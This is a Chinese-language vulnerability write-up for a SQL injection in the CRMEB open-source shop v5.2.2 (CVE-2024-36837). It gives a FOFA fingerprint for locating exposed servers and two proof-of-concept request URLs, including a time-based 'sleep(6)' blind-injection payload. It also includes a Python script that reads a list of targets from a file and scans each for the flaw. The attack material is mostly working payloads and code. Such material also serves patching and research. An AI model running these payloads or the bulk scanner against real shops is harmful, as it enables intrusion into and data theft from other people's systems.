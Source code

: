 ## CRMEB开源商城v5.2.2存在sql注入漏洞

CRMEB v.5.2.2 中的 SQL 注入漏洞允许远程攻击者通过 ProductController.php 文件中的 getProductList 函数获取敏感信息。

## fofa

```
icon_hash="-847565074"
```

## poc

```
/api/products?limit=20&priceOrder=&salesOrder=&selectId=)
/api/products?limit=20&priceOrder=&salesOrder=&selectId=0*if(now()=sysdate(),sleep(6),0) 
```

![image-20240616153608225](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406161536278.png)

![image-20240616153711514](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406161537576.png)

```python
import requests
def check_vulnerability(url):
    # Remove trailing slash if present
    if url.endswith('/'):
        url = url[:-1]
    # Construct the URL with the required endpoint
    test_url = f"{url}/api/products?limit=20&priceOrder=&salesOrder=&selectId=)"
    try:
        response = requests.get(test_url)
        # Check if the response contains the specific string indicating a vulnerability
        if 'PDOConnection.php' in response.text:
            print(f"\033[31m[HIGH RISK]\033[0m Vulnerability found in: {url}")
        else:
            print(f"\033[32m[SAFE]\033[0m No vulnerability found in: {url}")
    except requests.RequestException as e:
        print(f"\033[33m[ERROR]\033[0m Could not connect to {url}. ")#Error: {e}")
def main():
    # Read URLs from url.txt
    with open('url.txt', 'r') as file:
        urls = file.readlines()

    for url in urls:
        url = url.strip()  # Remove any leading/trailing whitespace characters
        if not url.startswith('http'):
            url = 'http://' + url  # Add http scheme if missing
        check_vulnerability(url)
if __name__ == "__main__":
    main()
```



## 漏洞来源

- https://github.com/phtcloud-dev/CVE-2024-36837/blob/main/CVE-2024-36837.py
- https://7nkdkj-my.sharepoint.com/:w:/g/personal/krypt0n_7nkdkj_onmicrosoft_com/Ea8dW8YuldRMqgCy7KHjnxABTJCVPLShHIJfqQk684mD3A?e=0qmN7t